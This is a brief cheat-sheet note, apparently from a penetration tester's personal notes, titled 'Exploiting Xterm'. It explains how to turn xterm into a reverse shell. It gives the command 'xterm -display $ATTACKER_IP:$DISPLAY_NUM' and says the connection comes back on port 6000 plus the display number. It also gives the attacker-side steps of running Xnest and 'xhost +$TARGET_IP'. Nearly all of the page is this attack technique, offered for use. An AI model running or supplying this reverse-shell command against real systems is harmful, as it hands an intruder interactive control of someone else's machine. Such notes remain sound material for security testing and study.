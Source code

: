 # Exploiting Xterm

* **author**:: Nathan Acks
* **date**:: 2022-07-11

Remember that the X11 protocol is network based! You can thus get xterm to act as a reverse shell by simply providing it with a display pointing to your machine.

```bash
xterm -display $ATTACKER_IP:$DISPLAY_NUM
```

The connection will be made back on port 6000 + `$DISPLAY_NUM` (so, 6000 for display 0, 6001 for display 1, etc.).

This, of course, requires a running X server on your end (for example, `Xnest :1`). You'll need to make sure that connections from the target system are authrized.

```bash
xhost +$TARGET_IP
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
